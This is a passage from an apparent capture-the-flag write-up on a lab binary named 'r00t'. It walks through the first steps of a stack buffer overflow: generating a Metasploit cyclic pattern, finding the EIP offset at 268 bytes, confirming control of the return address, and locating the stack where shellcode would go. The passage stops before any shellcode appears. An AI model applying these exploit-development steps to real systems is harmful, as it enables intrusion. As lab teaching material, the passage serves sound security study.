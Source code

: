 On the attacking machine we generate a string of 300 characters with **pattern_create** utility.

```console
root@kali:~$ msf-pattern_create -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

We run the binary with the generated string, and we see that it caused a crash.

```console
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /home/noob/r00t Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()
(gdb)
```

We identify the offset with the **pattern_offset** utility at 268 characters, as shown below.

```console
root@kali:~$ msf-pattern_offset -l 300 -q 0x6a413969
[*] Exact match at offset 268
root@kali:~$
```

We check if we control the **eip** register as follows.

```console
(gdb) run $(python -c "print('A'*268 + 'B'*4 + 'C'*100)")
Starting program: /home/noob/r00t $(python -c "print('A'*268 + 'B'*4 + 'C'*100)")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

As we can see above the return address was controlled.

We verify the address to the **esp** register to locate our shellcode there, **0xbffffb80**.

```console
(gdb) x/40wx $esp
0xbffffb80:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffb90:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffba0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbb0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbc0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbd0:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffffbe0:     0x43434343      0x08048300      0x00000000      0x080483b1
0xbffffbf0:     0x08048444      0x00000002      0xbffffc14      0x080484b0
0xbffffc00:     0x08048520      0xb7fed280      0xbffffc0c      0xb7fff918
0xbffffc10:     0x00000002      0xbffffd2c      0xbffffd3c      0x00000000
```
